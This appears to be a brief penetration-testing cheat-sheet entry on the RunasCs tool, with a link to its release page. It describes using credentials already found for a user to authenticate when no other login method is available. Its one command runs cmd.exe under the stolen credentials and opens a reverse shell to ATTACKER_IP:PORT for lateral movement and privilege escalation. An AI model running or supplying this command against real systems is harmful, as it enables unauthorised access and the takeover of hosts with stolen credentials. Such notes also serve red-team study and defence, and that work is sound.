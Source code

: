 # Runas

## Use case: 

### Use this when we have found credentials for a user, but we have no other methods to authenticate (Win-RM, etc). Essentialy, we inject the credentials found in memory to authenticate with these valid credentials.

## Github repo: https://github.com/antonioCoco/RunasCs/releases/tag/v1.5

### Command:

    .\RunasCs.exe USERNAME PASSWORD cmd.exe -r ATTACKER_IP:PORT (Execute a reverse shell as the authenticated user for lateral movement/privesc)
